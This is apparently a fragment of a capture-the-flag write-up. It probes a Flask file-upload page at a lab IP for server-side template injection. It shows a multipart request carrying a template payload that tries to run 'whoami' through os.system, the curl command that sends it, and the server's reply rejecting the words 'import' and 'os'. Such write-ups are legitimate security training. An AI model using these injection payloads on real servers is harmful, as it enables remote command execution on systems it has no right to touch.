 ```html
    <h3>Rendering HTML templates</h3>

    <form action="/" method="post" enctype="multipart/form-data">
        <input type="file" name="file" accept=".html" title="Select file" required>
        <input type="submit" value="Upload">
    </form>
        <h2>Result:</h2>
        <div>&lt;html&gt;
        &lt;body&gt;
                49 ←
        &lt;/body&gt;
&lt;/html&gt;</div>
</body>
</html>
```

`vim ./html_python_request.txt`:
```http
-----------------------------156927482725802177751080524724
Content-Disposition: form-data; name="file"; filename="python_test.html"
Content-Type: text/html

<html>
	<body>
		{{ import os; os.system('whoami') }}
	</body>
</html>

-----------------------------156927482725802177751080524724--
```

`curl -X POST http://192.168.56.147:5000/ --data-binary @html_python_request.txt --header "Content-Type: multipart/form-data; boundary=---------------------------156927482725802177751080524724"`:
```html
[...]

	<h3>Error: File: /home/cosette/zeug/venv/lib/python3.11/site-packages/flask/app.py - Template contains restricted words: import, os</h3> ←

[...]
```

<div>
	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>
